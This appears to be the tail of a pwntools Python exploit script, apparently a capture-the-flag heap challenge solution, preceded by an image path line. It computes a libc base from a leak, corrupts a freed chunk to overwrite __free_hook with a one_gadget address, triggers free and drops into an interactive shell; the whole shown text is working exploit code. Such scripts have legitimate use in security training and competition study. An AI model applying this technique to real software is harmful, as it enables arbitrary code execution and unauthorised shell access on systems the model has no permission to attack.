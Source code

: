 ```python 
libc.address = libc_leak - 0x1ed5c0
log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))

############################
### stage 3: __free_hook ###
############################

add(0x30, b'giabao')
delete()
edit(b'\0' * 0x30)
delete()
edit(p64(libc.sym['__free_hook']))

############################
### stage 1: get shell   ###
############################

one_gadget = libc.address + 0xe3b01
add(0x30, b'giabao')
add(0x30, p64(one_gadget))
delete()

p.interactive()
```





